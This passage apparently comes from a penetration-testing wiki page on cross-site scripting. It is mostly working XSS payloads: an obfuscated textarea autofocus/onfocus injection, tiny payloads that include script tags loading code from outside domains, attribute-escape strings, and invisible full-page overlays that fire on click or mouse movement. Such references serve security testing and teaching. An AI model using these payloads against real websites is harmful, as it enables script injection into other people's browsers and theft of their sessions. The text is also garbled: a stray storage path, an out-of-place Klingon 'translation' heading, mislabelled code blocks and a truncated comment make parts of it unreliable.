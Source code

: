```javascript

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
### Length bypass (small XSSs)

{% hint style="info" %}
**More tiny XSS for different environments** payload [**can be found here**](https://github.com/terjanq/Tiny-XSS-Payloads) and [**here**](https://tinyxss.terjanq.me).
{% endhint %}
```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```
The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** you could try to [**abuse Clickjacking**](../clickjacking.md#xss-clickjacking) (if the page is vulnerable).

### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](../dangling-markup-html-scriptless-injection/)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](./#injecting-inside-raw-html) to execute JS code.\
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like (_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_):
```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
**Style events**

**tlhIngan Hol translation:**

**chuSuvmeH tIn**
```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
